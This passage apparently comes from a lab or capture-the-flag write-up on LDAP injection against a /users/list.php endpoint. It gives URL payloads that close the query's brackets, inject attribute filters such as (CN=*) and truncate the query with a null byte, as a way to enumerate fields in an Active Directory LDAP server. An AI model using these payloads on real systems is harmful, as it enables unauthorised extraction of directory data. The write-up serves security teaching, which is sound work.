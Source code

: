 This time, we do get a result back. We can tell the query is 2 brackets deep.

Now, we can try injecting in additional fields to see if they exist. The "CN" field is always present on AD LDAP servers, so we can try that first:

```
Payload: /users/list.php?name=technician)(CN=*))%00

NOTE: After this payload, the query will look something like this:

&(
	(name=technician)
	(CN=*)
)
%00
--- last bit of query we took out with null byte ---

So if the CN field exists, it will work and give us results back. If the CN field doesn't exist, there will be an erro in our query and we will get nothing back.
```

Here are the results:

![list_5](assets/list_5.png)

So now we know that the CN field exists. In other words, we can keep putting in other fields into here to bruteforce all available fields. After that, we can use a wildcard to extract the value of those fields.

For example, if we entered a dummy field that doesn't exist, we'll get nothing:

```
Payload: /users/list.php?name=technician)(DoesNotExist=*))%00
```
![list_6](assets/list_6.png)
